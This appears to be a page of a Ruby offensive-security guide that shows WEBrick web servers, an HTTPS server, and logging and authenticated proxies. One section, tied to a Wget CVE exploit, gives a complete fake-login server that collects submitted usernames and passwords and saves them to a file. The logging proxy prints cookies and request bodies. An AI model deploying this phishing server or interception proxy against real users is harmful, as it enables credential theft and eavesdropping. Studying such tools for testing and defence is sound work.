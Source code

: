 # Ruby as Web Server and Proxy


## Web Server
You can run Ruby as web server for any folder/file on any unused port

```ruby
ruby -run -e httpd /var/www/ -p 8000
```

or

```ruby
require 'webrick'
server = WEBrick::HTTPServer.new :Port => 8000, :DocumentRoot => '/var/www/'
# WEBrick::Daemon.start   # Stating WEBRick as a daemon
server.start
```

**HTTPS server**
```ruby
require 'webrick'
require 'webrick/https'

cert = [
  %w[CN localhost],
]

server = WEBrick::HTTPServer.new(:Port         => 8000,
                                 :SSLEnable    => true,
                                 :SSLCertName  => cert,
                                 :DocumentRoot => '/var/www/')
server.start
```

**Advanced HTTP Server**

During working on [CVE-2016-4971(Wget)](https://github.com/KINGSABRI/CVE-in-Ruby/tree/master/CVE-2016-4971) exploit, more advanced & custom behavior needed. Here is a web server with a fake login form that saves the collected credentials to a text file. This comes in handy when you don't need to make customizations on apache config or you don't have enough privileges to do so. It require no knowledge for web frameworks like Rails or Senatra.

```ruby
#!/usr/bin/env ruby
#
# KING SABRI | @KINGSABRI
#
require 'webrick'

#
# Servlet: Is a Web Server with custom behavior class
# It's a subclass of WEBrick::HTTPServlet::AbstractServlet
#
class RubyfuServlet < WEBrick::HTTPServlet::AbstractServlet

  # Control 'GET' request/response
  def do_GET(req, res)
    res.status = 200
    res['Content-Type']   = "text/html; charset=UTF-8"
    res['Server']         = "Rubyfu WebServer"
    res['Cache-Control']  = "no-store, no-cache,"
    res.body              = print_login(req)
  end

  private
  # Show login
  def print_login(req)
    html = %q{
      <center>
        <table cellpadding="3" border="1">
        <tr><td colspan="2"><center><h4><b>Enter your Username and Password</b></h4></center></td></tr>
        <form method="POST" action="/login">
                <tr><td><strong><b>Username:</b></strong></td><td><input name="username" type="text"></td></tr>
                <tr><td><strong><b>Password:</b></strong></td><td><input name="password" type="password"></td></tr>
                <tr><td colspan="2"><center><h1><b><input type="submit" value="Login" /></b></h1></center></td></tr>
        </form>
        </table>
      </center>
    }
  end

end

class Login < WEBrick::HTTPServlet::AbstractServlet

  # Control 'POST' request/response
  def do_POST(req, res)
    status, content_type, body = save_login(req)
    res.body  = body
  end

  # Save POST request
  def save_login(req)
    username, password = req.query['username'], req.query['password']

    if !(username && password).empty?
      # Print Credentials to console
      puts "\n-----[ START OF POST ]-----"
      puts "[+] #{username}:#{password}"
      puts "-----[ END OF POST ]-----\n\n"
      # Write Credentials to file
      File.write("credentials.txt", "#{username}:#{password}")
      return 200, 'text/plain', 'Success! Thank you.'
    else
      puts "[!] Empty username and password."
      return 404, 'text/plain', 'Wrong username or password!'
    end

  end
end


begin
  port = ARGV[0]
  raise if ARGV.size < 1

  # Start Web Server
  puts "[+] Starting HTTP server on port: #{port}\n"
  server = WEBrick::HTTPServer.new(ServerName: "Wget Web Server",
                                   Port: port,
                                   BindAddress: '0.0.0.0',
                                   AccessLog: [],
                                   Logger: WEBrick::Log.new(File.open(File::NULL, 'w'))
                                   )
  server.mount("/", RubyfuServlet)
  server.mount("/login", Login)
  trap "INT" do server.shutdown end
  server.start

rescue Exception => e
  puts "ruby #{__FILE__} <WEB_SERVER_PORT>" if ARGV.size < 1
  puts e, e.backtrace
  exit 0
end

```
**References**
- http://ruby-doc.org/stdlib-2.0.0/libdoc/webrick/rdoc/WEBrick.html
- https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/
- https://rubyit.wordpress.com/2011/07/25/basic-rest-server-with-webrick/
- https://gist.github.com/Integralist/2862917

## Web Proxy

### Transparent Web Proxy
```ruby
require 'webrick'
require 'webrick/httpproxy'

handler = proc do |req, res|
  puts "[*] Request"
  puts req.inspect
  request = req.request_line.split
  puts "METHOD: "      + "#{request[0]}"
  puts "Request URL: " + "#{request[1]}"
  puts "Request path: "+ "#{req.path}"
  puts "HTTP: "        + "#{request[2]}"
  puts "Referer: "     + "#{req['Referer']}"
  puts "User-Agent: "  + "#{req['User-Agent']}"
  puts "Host: "        + "#{req['Host']}"
  puts "Cookie: "      + "#{req['Cookie']}"
  puts "Connection: "  + "#{req['Connection']}"
  puts "Accept: "      + "#{req['accept']}"
  puts "Full header: " + "#{req.header}"
  puts "Body: "        + "#{req.body}"
  puts "----------[END OF REQUEST]----------"
  puts "\n\n"

  puts "[*] Response"
  puts res.inspect
  puts "Full header: " + "#{res.header}"
  puts "Body: " + "#{res.body}"
  puts "----------[END OF RESPONSE]----------"
  puts "\n\n\n"
end

proxy = WEBrick::HTTPProxyServer.new Port: 8000,
                                     ServerName: "RubyFuProxyServer",
                                     ServerSoftware: "RubyFu Proxy",
                                     ProxyContentHandler: handler

trap 'INT'  do proxy.shutdown end

proxy.start

```


### Transparent Web Proxy with Authentication
Well, it was great to know that building a proxy server is that easy. Now we need to Force authentication to connect to the proxy server

To enable authentication for requests in WEBrick you will need a user database and an authenticator. To start, here's a htpasswd database for use with a DigestAuth authenticator:

The `:Realm` is used to provide different access to different groups across several resources on a server. Typically you'll need only one realm for a server.

```ruby
#!/usr/bin/env ruby
require 'webrick'
require 'webrick/httpproxy'

# Start creating the config
config = { :Realm => 'RubyFuSecureProxy' }
# Create an htpasswd database file in the same script path
htpasswd = WEBrick::HTTPAuth::Htpasswd.new 'rubyfuhtpasswd'
# Set authentication type
htpasswd.auth_type = WEBrick::HTTPAuth::DigestAuth
# Add user to the password config
htpasswd.set_passwd config[:Realm], 'rubyfu', 'P@ssw0rd'
# Flush the database (Save changes)
htpasswd.flush
# Add the database to the config
config[:UserDB] = htpasswd
# Create a global DigestAuth based on the config
@digest_auth = WEBrick::HTTPAuth::DigestAuth.new config

# Authenticate requests and responses
handler = proc do |request, response|
  @digest_auth.authenticate request, response
end


proxy = WEBrick::HTTPProxyServer.new Port: 8000,
                                     ServerName: "RubyFuSecureProxy",
                                     ServerSoftware: "RubyFu Proxy",
                                     ProxyContentHandler: handler

trap 'INT'  do proxy.shutdown end

proxy.start
```

If you do it right, you'll get an authentication pop-up in your browser just like below.

![](webfu__proxy2.png)


